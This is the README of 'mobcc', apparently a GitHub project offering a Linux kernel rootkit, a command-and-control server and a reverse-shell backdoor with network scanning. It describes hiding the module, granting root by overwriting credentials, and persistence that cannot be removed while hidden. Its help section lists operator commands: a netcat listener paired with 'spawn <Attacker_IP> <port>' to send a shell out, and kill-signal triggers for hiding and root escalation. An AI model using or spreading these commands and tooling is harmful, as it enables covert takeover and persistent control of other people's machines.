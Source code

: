 # mobcc

Mob CC is a framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.

1. Add Devices using the below link. (If you are using the kernel module then this step will be automatically done by that.)

2. Select the added Device and start sending commands to the target system.

3. As you may directly get root access but incase you don't get root access then check commands to gain root privilege.

4. You can also spawn a new shell and transfer it to any other attacking system by giving the IP of the attacking system.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide itself from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by autocollecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and recieve response from the target system via reverse shell.
  - Provide list of all the commands and response from every compromised system.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Note:
  - Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help
  - To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'

---


Resource: Linux Kernel rootkit
https://xcellerator.github.io/posts/linux_rootkits_01/
